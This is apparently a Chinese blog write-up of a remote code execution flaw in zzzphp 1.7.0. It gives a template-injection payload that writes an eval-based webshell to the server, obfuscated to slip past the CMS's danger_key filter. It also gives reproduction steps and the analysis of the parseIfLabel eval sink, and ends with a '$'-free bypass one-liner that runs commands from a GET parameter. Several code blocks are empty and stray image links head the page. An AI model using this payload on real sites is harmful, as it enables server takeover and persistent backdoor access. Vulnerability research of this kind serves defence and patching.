







zzzphp1.7.0远程代码执行
漏洞原因
str_ireplace函数缺陷无法有效过滤危险参数
漏洞复现
payload
1 | {if:1)file_put_contents(str_replace('*','','osword.pphphp'),str_replace('*','','<?pphphp evevalal(ggetet_defined_vars()[_PPOSTOST][1]);'));//}{end if} |
进入后台，在模板管理->cn2016->html->search.html，添加payload

访问http://127.0.0.1/search后在seach文件夹下生成osword.php

漏洞分析
zzz_client.php第56行开始模板解析操作
getlocation()解析url，并进入case操作选择初始模板文件
/var/www/html/cms/zzzphp/template/pc/cn2016/html/search.html
调用ParserTemplate类解析模板文件search.html文件

第2344行parseIfLabel函数解析IF标签，且存在危险函数eval。danger_key方法过滤危险字符
过滤了关键的’$’
1 | function danger_key( $s , $len=255) { |
由于最后进入eval执行，可以调用str_replace将*替换为空字符，然而要执行传入的数据$无法添加,可以使用get_defined_vars()调用_GET数组

preg_match_all，第四个参数默认为PREG_PATTERN_ORDER，会将matches划分为多维数组
PREG_PATTERN_ORDER
结果排序为$matches[0]保存完整模式的所有匹配, $matches[1] 保存第一个子组的所有匹配，以此类推。
1 |
|
以上例程会输出：
1 | <b>example: </b>, <div align=left>this is a test</div> |
get_defined_vars()与getallheaders() shell
| 环境 | 函数 | 用法 |
|---|---|---|
| nginx | get_defined_vars() |
返回由所有已定义变量所组成的数组 |
| apache | getallheaders() |
获取全部 HTTP 请求头信息 |
apache环境
1 |
|

apache和nginx环境通用
1 |
|

1 |
|

过滤$
1 | eval(get_defined_vars()['_GET']['cmd']); |
